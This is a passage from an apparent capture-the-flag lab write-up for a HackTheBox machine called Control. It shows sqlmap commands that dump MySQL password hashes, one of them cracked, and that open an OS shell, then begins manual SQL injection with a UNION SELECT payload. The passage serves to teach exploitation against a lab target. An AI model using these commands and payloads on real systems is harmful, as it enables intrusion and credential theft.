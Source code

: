 `sqlmap -r search-product-req.txt --dbs --batch -p productName -D mysql -T user --dump`

| Host        | User    | Password                                          |
|-------------|---------|---------------------------------------------------|
| localhost   | root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8       |
| fidelity    | root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8       |
| 127.0.0.1   | root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8       |
| ::1         | root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8       |
| localhost   | manager | *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA (l3tm3!n) |
| localhost   | hector  | *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D       |

It discovers bunch of password hashes and password for user **manager** is cracked: **l3tm3!n**

I will try spawning **os-shell** just in case and it works:

`sqlmap -r search-product-req.txt --dbs --batch -p productName --os-shell`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-19.png)

Luckily, I can spawn a shell as the **nt authority\iusr** but it seems like I amd not able to spawn a reverse shell connection from this sqlmap shell connection to my local listener. 

I would have to spawn a reverse shell through manual sql injection not using SQLmap. 


### Manual SQli

Although using tools such as **sqlmap** is convenient, it is best practice to understand what is going on when you run a tool. I can manually conduct SQLi without SQLmap as well. 


#### Identify Number of Columns

We first have to identify number of columns.

When selecting 5 columns, it shows an error:

`productName=Asus+USB-AC53+Nano' UNION SELECT 1,2,3,4,5;-- -`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-22.png)
